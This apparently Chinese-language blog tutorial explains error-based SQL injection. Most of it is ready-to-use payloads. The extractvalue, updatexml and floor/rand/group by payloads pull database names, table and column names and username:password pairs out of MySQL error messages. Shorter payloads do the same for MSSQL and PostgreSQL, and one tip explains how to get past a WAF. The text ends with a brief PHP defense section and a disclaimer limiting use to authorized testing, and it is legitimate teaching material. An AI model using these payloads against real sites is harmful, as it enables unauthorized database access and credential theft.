

## 什么时候用报错注入

联合查询需要回显位——页面直接把查询结果显示出来。但很多站点虽然报错，却不显示查询结果（回显位被禁）。这时用报错注入：把数据库里的数据"揉进"报错信息里，从报错页面拿到数据。

条件：页面显示数据库错误信息（未关闭 `display_errors`）。

---

## MySQL 报错注入三剑客

### 1. extractvalue

`extractvalue(xml_target, xpath_expr)` 对 XML 做 XPath 查询。XPath 语法错误时，第二个参数的内容会出现在报错中：

```sql
?id=1' AND extractvalue(1,concat(0x7e,database())) -- -
-- 报错：XPATH syntax error: '~库名'
```

一步步拿数据：

```sql
-- 库名
AND extractvalue(1,concat(0x7e,(SELECT database())))

-- 表名（group_concat 一次全拿）
AND extractvalue(1,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database())))

-- 字段名
AND extractvalue(1,concat(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='users')))

-- 数据（32字符截断问题见下文）
AND extractvalue(1,concat(0x7e,(SELECT concat(username,':',password) FROM users LIMIT 0,1)))
```

**extractvalue 的 32 字符限制：** XPath 报错只显示前 32 个字符。数据多时用 `substr()` 分段取：

```sql
-- 取第 1~30 位
AND extractvalue(1,concat(0x7e,substr((SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()),1,30)))
-- 取第 31~60 位
AND extractvalue(1,concat(0x7e,substr((SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()),31,30)))
```

---

### 2. updatexml

`updatexml(xml_target, xpath_expr, new_xml)` 语法和 extractvalue 几乎一样：

```sql
-- 库名
AND updatexml(1,concat(0x7e,database()),1)

-- 表名
AND updatexml(1,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database())),1)

-- 数据 + substr 分段
AND updatexml(1,concat(0x7e,substr((SELECT group_concat(username,':',password) FROM users),1,30)),1)
```

同样有 32 字符限制，同样用 `substr()` 分段。

---

### 3. floor + rand + group by（经典两行重复报错）

这是最早期也最经典的 MySQL 报错注入，不需要 XML 函数（某些极端精简的 MySQL 仍有效）：

```sql
AND (SELECT 1 FROM (SELECT count(*),concat(database(),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
```

原理：`floor(rand(0)*2)` 每次执行结果不同，`GROUP BY` 内部创建临时表时出现重复键报错，数据被塞进报错信息里。

完整数据获取：

```sql
-- 库名
AND (SELECT 1 FROM (SELECT count(*),concat(database(),0x7e,floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)

-- 表名（一次性全拿）
AND (SELECT 1 FROM (SELECT count(*),concat((SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()),0x7e,floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)

-- 数据
AND (SELECT 1 FROM (SELECT count(*),concat((SELECT concat(username,':',password) FROM users LIMIT 0,1),0x7e,floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
```

floor 报错无 32 字符限制，但语法更复杂。推荐顺序：先试 extractvalue/updatexml，不行再换 floor。

---

## 各数据库报错函数对比

| 数据库 | 报错函数 | 限制 |
|--------|---------|------|
| MySQL | extractvalue/updatexml/floor | 前两者 32 字符 |
| MSSQL | convert/cast + 子查询报错 | 需转换兼容性报错 |
| PostgreSQL | 类型转换报错 | `CAST` 故意转错类型 |
| Oracle | UTL_INADDR 反向解析报错 | 需特定权限 |

**MSSQL 报错注入：**

```sql
?id=1' AND 1=convert(int,(SELECT @@version)) -- -
-- 报错：Conversion failed when converting the nvarchar value 'Microsoft SQL Server...' to data type int.
```

**PostgreSQL 报错注入：**

```sql
?id=1' AND 1=CAST((SELECT version()) AS int) -- -
-- 报错：ERROR: invalid input syntax for integer: "PostgreSQL..."
```

---

## 实战：从报错到拿密码的完整链路



---

## 踩过的坑

1. **`extractvalue` 只出 32 字符，漏了一半数据** → 没有用 `substr()` 分段，以为只有一个表
2. **`floor(rand(0)*2)` 在某些 MySQL 8.x 版本不报错** → `FROM information_schema.tables` 行数不够触发，换成行数多的表
3. **MSSQL 报错注入 `convert(int,...)` 被 WAF 拦** → 用 `CAST` 替代 `CONVERT`，或换其他类型转换（datetime→int 等）
4. **报错信息里有 HTML 标签** → 页面把报错套在模板里，`view-source:` 或者直接看 HTTP 响应体

---

## 防御方案

```php
// 1. 关闭报错回显
ini_set('display_errors', 0);

// 2. 参数化查询——从根源切断注入
$stmt = $pdo->prepare("SELECT * FROM news WHERE id = ?");
$stmt->execute([$id]);

// 3. 自定义错误页面，不暴露数据库错误
```

---

> 本文仅用于授权安全测试与学习，请勿用于非法用途。
